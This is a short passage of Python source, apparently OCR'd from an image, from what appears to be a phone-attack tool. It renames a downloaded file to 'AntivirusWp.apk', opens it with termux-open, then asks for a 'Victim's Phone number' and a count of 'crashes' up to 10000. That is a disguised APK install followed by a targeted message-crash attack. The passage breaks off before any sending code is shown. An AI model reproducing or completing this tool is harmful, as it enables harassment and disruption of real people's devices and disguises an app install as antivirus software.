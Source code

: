         os.system('mv /sdcard/Download/test.dat  AntivirusWp.apk')
        os.system('termux-open /sdcard/Download/AntivirusWp.apk')
      pass
    number = input(f"{G}[{W}+{G}] {G}Enter Victim's Phone number with country Code\n\n{R}>>>{G} ")

    print()
    crash = int(
        input(f'{G}[{W}+{G}] Enter the number of crashes {C}(Max 10000) \n\n{G}=> '))